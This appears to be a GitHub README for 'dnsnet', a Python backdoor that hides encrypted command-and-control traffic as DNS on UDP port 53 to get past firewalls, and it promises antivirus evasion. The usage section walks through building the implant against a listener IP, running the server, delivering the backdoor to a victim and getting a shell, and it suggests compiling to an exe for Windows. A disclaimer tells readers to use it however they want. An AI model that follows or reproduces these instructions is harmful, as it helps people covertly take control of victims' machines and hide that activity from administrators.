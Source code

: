 # dnsnet


# Current Version: BetaV1

# Logo:
![box](https://user-images.githubusercontent.com/72181445/155982020-2db1333f-74b7-4c3f-8178-f14a75a0a65d.png)

# Description:
DNSNET Is a backdoor that uses encrypted "dns" to communicate with the command & control server.


DNSNET Uses udp port 53 to make itself look like dns traffic, this means that firewalls can't block this port (without losing dns rsolving) and i will be adding av evasion.

# "But why encrypted?" Answer:
If someone notices your actions, the sysadmin or whatever can't see what you were trying to do so your opsec will not be compromised

<img src=https://user-images.githubusercontent.com/72181445/155986263-d911e874-5ce2-4d99-a5d3-0c44ae65f9bc.png width=500 heigth=500></img>

# Disclaimer:
Im not responsible for any damage or harm done by this program in the hands of other entities

# Where is this used?:
I originally started coding this because i wanted a sure way to stealth backdoor victim machine during a red team assesments however

you can use it however you want (Im not responsible for your own actions).

# Update log:
Alpha: 10 times encryption and stabile server end

AlphaV2: Automatic reconnect if connection is lost and manual reset added by pressing ctrl + c on the server end, cryptography import problems solved

BetaV1: Backdoor now remembers where you cd'ed to allowing much better file sytem exploring, overall small fixes to make the backdoor more stable and usable

# In dev?: no

# How to use (REPLACE "Listener ip" with the c2 ip):
git clone https://github.com/R00tendo/dnsnet

cd dnsnet

apt install unrar

unrar e cryptography.rar

pip3 install termcolor

python3 key_generator.py 5 > keys

python3 virus_generator.py <Listener ip>

python3 server.py

and send the backdoor directory and get your shell (if on windows i suggest using pyinstaller to compile it to exe first)
 
# Technical Details:
Encryption: Fernet 32bit encryption (that times the keys)
Program: Python3
  

